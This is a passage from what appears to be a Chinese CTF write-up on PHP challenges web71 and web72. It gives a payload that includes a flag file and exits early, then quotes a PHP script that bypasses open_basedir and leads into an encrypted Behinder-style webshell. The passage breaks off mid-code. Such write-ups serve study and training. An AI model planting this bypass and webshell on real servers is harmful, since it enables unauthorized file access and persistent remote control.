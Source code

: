 ```php
我们可以执行php代码让后面的匹配缓冲区不执行直接退出 
payload:c=include('/flag.txt');exit(0);
```

## web72（php伪协议glob://、php垃圾回收）

```php
给出的index.php和上题一样，但是文件不再是flag.txt了，也无法使用var_dump、scandir等函数查看根目录文件，只能查看本目录内容，而flag.php内没有什么东西
```

> 也就是说，本题设置了 open_basedir()，将php所能打开的文件限制在指定的目录树中，包括文件本身。
> 因为 ini_set() 也被限制了，所以 open_basedir() 不能用 ini_set() 重新设置绕过。

> [绕过open_basedir](https://www.freesion.com/article/5349629378/)
>
> # 前言
>
> 从t00ls看到一个可绕过`open_basedir`的php脚本，由于对之了解不是很深，遂有踩坑过程。脚本如下
>
> ```php
> <?php
> @error_reporting(0);
> session_start();
> 
> function bypass_open_basedir(){
>         if(!file_exists('bypass_open_basedir')){
>                 mkdir('bypass_open_basedir');
>         }
>         chdir('bypass_open_basedir');
>         @ini_set('open_basedir','..');
>         @$_Ei34Ww_sQDfq_FILENAME = dirname($_SERVER['SCRIPT_FILENAME']);
>         @$_Ei34Ww_sQDfq_path = str_replace("\\",'/',$_Ei34Ww_sQDfq_FILENAME);
>         @$_Ei34Ww_sQDfq_num = substr_count($_Ei34Ww_sQDfq_path,'/') + 1;
>         $_Ei34Ww_sQDfq_i = 0;
>         while($_Ei34Ww_sQDfq_i < $_Ei34Ww_sQDfq_num){
>                 @chdir('..');
>                 $_Ei34Ww_sQDfq_i++;
>         }
>         @ini_set('open_basedir','/');
>         @rmdir($_Ei34Ww_sQDfq_FILENAME.'/'.'bypass_open_basedir');
> }
> bypass_open_basedir();
> // =========== 以下可以是冰蝎马，也可以是一句话。
> if (isset($_GET['pass']))
> {
>     $key=substr(md5(uniqid(rand())),16);
>     $_SESSION['k']=$key;
>     print $key;
> }
> else
> {
>     $key=$_SESSION['k'];
>         $post=file_get_contents("php://input").'';
>         if(!extension_loaded('openssl'))
>         {
>                 $t="base64_"."decode";
>                 $post=$t($post."");
>                 
>                 for($i=0;$i<strlen($post);$i++) {
>                              $post[$i] = $post[$i]^$key[$i+1&15]; 
>                             }
>         }
>         else
>         {